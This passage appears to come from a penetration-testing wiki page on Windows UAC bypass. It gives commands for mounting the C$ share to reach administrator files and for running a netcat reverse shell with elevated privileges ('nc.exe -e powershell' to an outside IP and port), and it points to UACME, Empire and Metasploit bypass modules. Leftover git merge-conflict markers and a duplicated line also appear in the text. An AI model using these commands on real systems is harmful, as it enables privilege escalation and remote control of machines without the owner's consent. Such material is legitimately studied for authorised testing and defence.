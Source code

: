 ```

```
net user %username%
whoami /groups | findstr Level
```

#### **Very **Basic UAC "bypass" (full file system access)

If you have a shell with a user that is inside the Administrators group you can **mount the C$** shared via SMB (file system) local in a new disk and you will have **access to everything inside the file system** (even Administrator home folder).

{% hint style="info" %}
**Looks like this trick isn't working anymore**
{% endhint %}

```bash
net use Z: \\127.0.0.1\c$
cd C$

#Or you could just access it:
dir \\127.0.0.1\c$\Users\Administrator\Desktop
```

#### UAC disabled

If UAC is already disabled (**`ConsentPromptBehaviorAdmin`**is **`0`**) you can **execute a reverse shell with admin privileges** (high integrity level) using something like:

```bash
#Put your reverse shell instead of "calc.exe"
Start-Process powershell -Verb runAs "calc.exe"
Start-Process powershell -Verb runAs "C:\Windows\Temp\nc.exe -e powershell 10.10.14.7 4444"
```

#### UAC bypass exploits

You could also use some tools to** bypass UAC like **[**UACME** ](https://github.com/hfiref0x/UACME)which is a **compilation **of several UAC bypass exploits. Note that you will need to **compile UACME using visual studio or msbuild**. The compilation will create several executables (like_Source\Akagi\outout\x64\Debug\Akagi.exe_) , you will need to know **which one you need.**\
****You should **be careful** because some bypasses will **prompt some other programs** that will **alert **the **user **that something is happening.

<<<<<<< HEAD
**Empire** and **Metasploit** also have several modules to **bypass** the **UAC**.
=======
**Empire **and **Metasploit **also have several modules to **bypass **the **UAC**. 
>>>>>>> 72cbd88461ed0e65da5433596050dd2ecb643f6b

#### More UAC bypass

**All **the techniques used here to bypass AUC **require **a **full interactive shell **with the victim (a common nc.exe shell is not enough).
